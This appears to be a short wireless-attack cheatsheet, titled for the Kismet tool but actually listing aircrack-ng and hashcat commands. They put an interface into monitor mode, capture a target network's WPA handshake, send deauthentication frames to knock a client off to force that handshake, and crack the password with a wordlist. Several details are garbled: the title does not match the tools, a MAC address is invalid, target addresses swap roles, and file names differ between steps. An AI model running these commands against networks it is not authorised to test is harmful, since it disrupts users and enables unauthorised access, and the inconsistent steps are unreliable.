 Kismet Cheatsheet
--------------------------------
Kismet is a wireless network and device detector, sniffer, wardriving tool, and WIDS (wireless intrusion detection) framework.

Kismet works with Wi-Fi interfaces, Bluetooth interfaces, some SDR (software defined radio) hardware like the RTLSDR, and other specialized capture hardware.

[+] Commands

## Turn Interface down
ifconfig wlan0 down

## Set monitor mode
iwconfig wlan0 mode monitor

## Set interface up
ifconfig wlan0 up

## Start listening for all nearby beacon frames to get target BSSID and 
airodump-ng wlan0 --band abg

## Set 5 GHz channel
iwconfig wlan0 channel 149

## Start listening for the handshake
airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0

## Optionally deauth a connected client to force a handshake
aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0

## Convert cap to hccapx
aircrack-ng -J file.cap capture.hccap

## Crack with hashcat:
hashcat -m 2500 captureallthewireless-05.cap rockyou.txt
